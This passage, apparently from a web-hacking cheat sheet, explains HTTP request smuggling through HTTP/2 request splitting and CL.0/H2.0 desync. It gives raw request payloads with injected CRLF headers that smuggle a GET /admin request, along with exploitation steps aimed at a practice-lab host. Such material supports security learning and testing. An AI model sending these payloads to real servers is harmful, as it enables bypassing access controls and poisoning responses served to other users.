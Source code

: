 ## HTTP/2 request splitting

This approach is more versatile, allowing even GET requests without relying on methods that support a body.

```http
:method	        GET
:path	        /
:authority      vulnerable-website.com
foo             bar\r\n
                \r\n
                GET /admin HTTP/1.1\r\n
                Host: vulnerable-website.com
```

During rewriting, some front-end servers append the new `Host` header after existing ones. With HTTP/2, this places it after the `foo` header, leaving the first request without a `Host` header and the smuggled one with two. Inject your `Host` header so that it ends up in the first request once.

```http
:method	        GET
:path	        /
:authority      vulnerable-website.com
foo             bar\r\n
                Host: vulnerable-website.com\r\n
                \r\n
                GET /admin HTTP/1.1
```

> **Note**: Here the request trigger response queue poisoning, but you can also smuggle prefixes for classic request smuggling.

---

## CL.0/H2.0 request smuggling

Some servers ignore the `Content-Length` header, treating requests as ending at the headers, effectively making `Content-Length 0`. If the back-end behaves this way while the front-end uses Content-Length, this discrepancy enables HTTP request smuggling, termed a "CL.0" vulnerability.

**Find an endpoint that ignores Content-Length**

* POST request to a static file
* POST request to server level redirect (`Location` header in the response)
* POST request that triggers a server side error

**Exploitation**

1. Create one tab containing the setup request and another containing an arbitrary follow-up request.
2. Add the two tabs to a group in the correct order.
3. Change the Connection header to `keep-alive`.
4. Send group in sequence (single connection)

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /404 HTTP/1.1
Foo: x
```



